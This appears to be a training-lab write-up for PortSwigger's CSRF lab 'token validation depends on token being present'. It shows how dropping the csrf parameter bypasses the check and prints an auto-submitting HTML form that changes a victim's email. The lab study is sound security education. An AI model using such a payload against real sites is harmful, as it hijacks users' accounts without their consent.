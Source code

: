 ### CSRF where token validation depends on token being present : PRACTITIONER

---

Given credentials `wiener:peter`, we need to create a CSRF attack to change the email of the victim user.

Logging in with the given credentials.

![](./screenshots/lab1-1.png)

We see this page.

![](./screenshots/lab1-2.png)

We know that the update email is vulnerable to CSRF.
- Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab3-1.png)

Sending this request we change the email normally.
- Trying to play with the `csrf` parameter by changing its value.

![](./screenshots/lab3-2.png)

We can't play with, lets try to remove it entirely and see if the website checks for it.

![](./screenshots/lab3-3.png)

> We see that it responds normally and it works.

Now we have a basis for a CSRF attack.
* Relevant action.
* All parameters are known.
* Using session cookies to track users.

> Crafting an HTML payload similar to [[Portswigger/CSRF/Lab 1|Lab 1]].

```HTML
<html> 
	<body> 
		<form action="https://https://0a7f00db044ac6e3817dde74004400da.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="mins1@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

Putting this HTML page in the exploit server.

![](./screenshots/lab3-4.png)

Delivering the exploit to victim to complete the lab.

---
